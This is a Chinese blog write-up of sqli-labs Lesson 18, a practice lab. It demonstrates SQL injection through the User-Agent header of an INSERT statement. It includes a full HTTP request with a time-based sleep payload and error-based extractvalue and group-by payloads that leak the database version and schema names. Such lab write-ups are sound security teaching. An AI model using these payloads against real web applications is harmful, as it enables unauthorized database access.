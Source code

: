 ```yaml
---
id: 648
layout: post
title: 'sqli lab 4 - insert 语句注入'
date: 2016-01-02 16:20:00
author: virusdefender
tags: 
---
```


这一次直接跳到 Lesson-18，之前的课程都可以之前三篇文章的方法去解决的。

这一次的是 insert 语句的注入，这个和之前的其实也很相似的，主要能构造出一个字符串就可以，然后放在 or 或者 and 里面作为条件。

```
POST /sqli-labs/Less-18/ HTTP/1.1
Host: 172.16.61.153
User-Agent: test' or sleep(4) or '
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://172.16.61.153/sqli-labs/Less-18/
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

uname=admin&passwd=admin&submit=Submit
```

发现响应了好几秒，确定注入点就在 User-Agent 上。sql 语句应该类似 `INSERT INTO table (user_agent) VALUES ($_SERVER['HTTP_USER_AGENT'])`

使用 `extractvalue`的 ua 是`User-Agent: test' or extractvalue(1, concat("/", version())) or '`

group by 报错的 ua 是`User-Agent: test' or (select 1 from (select count(*), concat((select schema_name from information_schema.schemata limit 1 offset 1), floor(rand(0)*2))x from information_schema.tables group by x)a) or '`

翻看了一下源代码，在登录的地方进行了转义处理，这样是没问题的，所以不要尝试注入登录的代码了。

```php
function check_input($value)
{
    if(!empty($value))
    {
        // truncation (see comments)
        $value = substr($value,0,20);
    }

    // Stripslashes if magic quotes enabled
    if (get_magic_quotes_gpc())
    {
        $value = stripslashes($value);
    }

    // Quote if not a number
    if (!ctype_digit($value))
    {
        $value = "'" . mysql_real_escape_string($value) . "'";
    }
    else
    {
        $value = intval($value);
    }
    return $value;
}

```
除了 User-Agent 里面会出现注入以外，cookie 和 ip 字段注入也很常见。ip 字段注入一般是服务器端取的`X-Fordwarded-For`字段，而不是`remote_addr`，前一个 http 头是可以伪造的。